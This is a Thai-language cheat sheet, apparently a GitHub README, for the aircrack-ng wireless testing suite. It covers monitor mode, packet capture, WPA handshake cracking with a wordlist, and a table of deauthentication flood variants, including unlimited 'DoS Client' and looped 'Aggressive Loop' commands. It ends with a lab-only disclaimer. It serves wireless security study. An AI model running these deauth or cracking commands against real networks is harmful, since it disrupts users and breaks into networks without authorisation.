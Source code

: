 # 🛠 Aircrack-ng Suite – Wireless Attacks Toolkit

## 🧭 สารบัญ
- [📦 ภาพรวม](#📦-ภาพรวม)
- [🛰 airmon-ng – เปิด/ปิด Monitor Mode](#🛰-airmon-ng--เปิดปิด-monitor-mode)
- [🔍 airodump-ng – สแกน Wi-Fi และดักจับ Packet](#🔍-airodump-ng--สแกน-wi-fi-และดักจับ-packet)
- [💥 aireplay-ng – ยิง Packet และโจมตี](#💥-aireplay-ng--ยิง-packet-และโจมตี)
  - [🔫 รูปแบบการยิง deauth ที่นิยม](#🔫-รูปแบบการยิง-deauth-ที่นิยม)
- [🔐 aircrack-ng – ถอดรหัส WPA Handshake](#🔐-aircrack-ng--ถอดรหัส-wpa-handshake)

---

## 📦 ภาพรวม

ชุดเครื่องมือ `aircrack-ng` คือหนึ่งในเครื่องมือหลักที่ใช้ใน **Wireless Penetration Testing** โดยเน้นการ:
- ตรวจสอบสภาพเครือข่ายไร้สาย
- สแกน Access Point และ Client
- ดักจับ Handshake
- ยิง Packet (เช่น deauth)
- Brute-force หารหัสผ่านจาก Handshake

---

## 🛰 airmon-ng – เปิด/ปิด Monitor Mode

ใช้เพื่อเปลี่ยน Wi-Fi interface ให้อยู่ใน **Monitor Mode** และจัดการ process ที่รบกวนการดักจับ packet

### 🔧 คำสั่งหลัก
```bash
sudo airmon-ng start wlan1        # เปิด Monitor Mode → wlan1mon
sudo airmon-ng stop wlan1mon      # ปิด Monitor Mode กลับสู่ Managed Mode
sudo airmon-ng check              # ตรวจสอบ process ที่รบกวน เช่น NetworkManager
sudo airmon-ng check kill         # ฆ่า process ที่รบกวนทั้งหมด
```

### 📌 หมายเหตุ
- ใช้งานสะดวกกว่าการใช้ `ip` และ `iw`
- ชื่อ interface อาจเปลี่ยน เช่น `wlan1` → `wlan1mon`

---

## 🔍 airodump-ng – สแกน Wi-Fi และดักจับ Packet

ใช้เพื่อ:
- แสดงข้อมูล Access Point และ Client
- บันทึก packet เป็นไฟล์ `.cap`
- ใช้ร่วมกับ `aircrack-ng` หรือ `hashcat` เพื่อถอดรหัส

### 🔧 คำสั่งพื้นฐาน
```bash
sudo airodump-ng wlan1mon
```

### 🔧 คำสั่งขั้นสูง (เฉพาะเจาะจง BSSID และ Channel)
```bash
sudo airodump-ng --bssid <BSSID> --channel <CH> -w capture wlan1mon
```

### 🧾 Options สำคัญ
| Option | ความหมาย |
|--------|-----------|
| `--bssid <BSSID>` | ระบุ Access Point เป้าหมาย |
| `--channel <CH>` | ระบุ channel ให้ตรงกับ AP |
| `-w <prefix>` | บันทึกข้อมูลเป็นไฟล์ capture (เช่น `.cap`) |
| `--write-interval 1` | บันทึกทุก ๆ วินาที (default 5s) |
| `--ignore-negative-one` | ปิด warning ช่องสัญญาณไม่ตรง (บาง adapter ต้องใช้) |

---

## 💥 aireplay-ng – ยิง Packet และโจมตี

ใช้เพื่อ:
- ยิง deauth packet ไล่ client ออก
- ทดลอง packet injection
- Replay authentication / ARP request ฯลฯ

### 🔧 คำสั่งยิง deauth
```bash
# ไล่ client รายตัว
sudo aireplay-ng --deauth 10 -a <BSSID> -c <Client MAC> wlan1mon

# ไล่ client ทั้งหมดใน AP
sudo aireplay-ng --deauth 10 -a <BSSID> wlan1mon
```

### 🧾 Options สำคัญ
| Option | ความหมาย |
|--------|-----------|
| `--deauth <n>` | จำนวน packet ที่จะยิง (0 = ไม่จำกัด) |
| `-a <BSSID>` | ระบุ Access Point เป้าหมาย |
| `-c <Client MAC>` | ระบุ MAC ของ client (ถ้าเจาะจง) |
| `--ignore-negative-one` | ใช้เมื่อมี error ช่องสัญญาณไม่ตรง |

### 📌 คำสั่งทดสอบว่า Adapter รองรับ injection หรือไม่
```bash
sudo aireplay-ng --test wlan1mon
```

### 🔫 รูปแบบการยิง deauth ที่นิยม

| รูปแบบ | คำอธิบาย | คำสั่ง |
|--------|----------|--------|
| 🎯 รายตัว (Targeted) | ยิงเฉพาะ client ที่ระบุ | `aireplay-ng --deauth 10 -a <BSSID> -c <Client MAC> wlan1mon` |
| 📡 ทั้งวง (Broadcast) | ไล่ client ทุกตัวใน AP | `aireplay-ng --deauth 10 -a <BSSID> wlan1mon` |
| 🔁 ไม่จำกัดรอบ | ยิงเรื่อย ๆ จนกว่าจะหยุด | `aireplay-ng --deauth 0 -a <BSSID> wlan1mon` |
| ☠️ DoS Client | ยิงไม่หยุดเฉพาะรายตัว | `aireplay-ng --deauth 0 -a <BSSID> -c <Client MAC> wlan1mon` |
| 🚀 Aggressive Loop | ยิงหลายรอบติด ๆ กัน | `for i in {1..5}; do aireplay-ng --deauth 25 -a <BSSID> wlan1mon; done` |

---

## 🔐 aircrack-ng – ถอดรหัส WPA Handshake

ใช้ถอดรหัสไฟล์ `.cap` ที่ดักจับ handshake ได้ โดยใช้ wordlist

### 🔧 คำสั่งพื้นฐาน
```bash
aircrack-ng -w wordlist.txt -b <BSSID> capture.cap
```

### 🧾 Options สำคัญ
| Option | ความหมาย |
|--------|-----------|
| `-w <wordlist>` | ไฟล์รหัสผ่านสำหรับ brute-force |
| `-b <BSSID>` | ระบุ Access Point เป้าหมาย |
| `-e <ESSID>` | ระบุชื่อ Wi-Fi (ถ้าเจอหลายอัน) |
| `-l <output>` | บันทึกรหัสผ่านที่เจอไปยังไฟล์ |

### ✅ ตรวจสอบว่า handshake มีอยู่หรือไม่
```bash
aircrack-ng capture.cap
```
ถ้ามี handshake จะมีดาว (⭐) ขึ้นตรง `WPA handshake` กับ BSSID

---

📌 **หมายเหตุ:** การใช้งานเครื่องมือเหล่านี้ควรอยู่ภายใต้กฎหมาย และใช้เพื่อการศึกษาในแล็บเท่านั้น
